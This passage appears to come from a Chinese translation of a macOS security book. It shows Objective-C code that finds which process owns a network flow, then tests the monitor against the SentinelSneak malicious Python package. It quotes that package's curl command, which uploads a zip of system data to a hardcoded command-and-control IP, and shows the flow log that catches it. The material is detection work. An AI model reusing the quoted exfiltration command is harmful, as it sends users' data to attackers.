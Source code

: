 ```
CFURLRef path = NULL;
SecCodeRef code = NULL;
audit_token_t* token = (audit_token_t*)flow.sourceAppAuditToken.bytes;

pid_t pid = audit_token_to_pid(*token);

SecCodeCopyGuestWithAttributes(NULL, (__bridge CFDictionaryRef _Nullable)(@{(__bridge NSString
*)kSecGuestAttributeAudit:flow.sourceAppAuditToken}), kSecCSDefaultFlags, &code);

SecCodeCopyPath(code, kSecCSDefaultFlags, &path);

// Do something with the process ID and path.

CFRelease(path);
CFRelease(code); 
```

清单 7-17：从流中识别负责的进程

我们从流中提取审计令牌，然后调用 audit_token_to_pid 函数获取负责进程的 ID。我们还使用审计令牌获取代码引用，然后调用 SecCodeCopyPath 来检索进程路径。

#### 运行监视器

如果我们将此代码编译为实现完整、适当授权的网络扩展的一部分，我们可以实时全局观察所有出站网络流量，并提取每个流的远程端点和负责的进程信息。是的，这意味着我们现在可以轻松检测到像 Dummy 这样的基础恶意软件，但让我们针对一个相关的 macOS 恶意软件样本——SentinelSneak 进行测试。

这个恶意的 Python 软件包在 2022 年底被发现，目标是开发者，目的是窃取敏感数据。^(14)它使用了一个硬编码的 IP 地址作为命令与控制服务器。从它未加混淆的 Python 代码中，我们可以看到 curl 将感染系统的信息上传到位于 54.254.189.27 的外泄服务器：

```
command = "curl -k -F \"file=@" + zipname + "\" \"https://54.254.189.27/api/
v1/file/upload\" > /dev/null 2>&1"
os.system(command) 
```

这意味着我们在本章早些时候编写的 DNS 监视器无法检测到它的未经授权的网络访问。但过滤器数据提供者应该捕获并显示以下内容：

```
flow:
    identifier = D89B5B5D-793C-4940-41BD-B091F4C00700
    sourceAppIdentifier =.com.apple.curl
    sourceAppVersion =
    sourceAppUniqueIdentifier = {length = 20, bytes =
    0xbbb73e021281eee708f86d974c91182e955de441}
    procPID = 87558
    eprocPID = 87558
    direction = outbound
    inBytes = 0
    outBytes = 0
    signature = {length = 32, bytes = 0x4ee4a2f2 72c06264
    f38d479b 6ea2dc39 ... 74aa159c 9153147b}
    socketID = 7c0f491b0bd41
    localEndpoint = 0.0.0.0:0
    remoteEndpoint = 54.254.189.27:443
    protocol = 6
    family = 2
    type = 1
    procUUID = 9C547A5F-AD1C-307C-8C16-426EF9EE2F7F
    eprocUUID = 9C547A5F-AD1C-307C-8C16-426EF9EE2F7F

Remote Endpoint: 54.254.189.27:443

Process ID: 87558
Process Path: /usr/bin/curl 
```
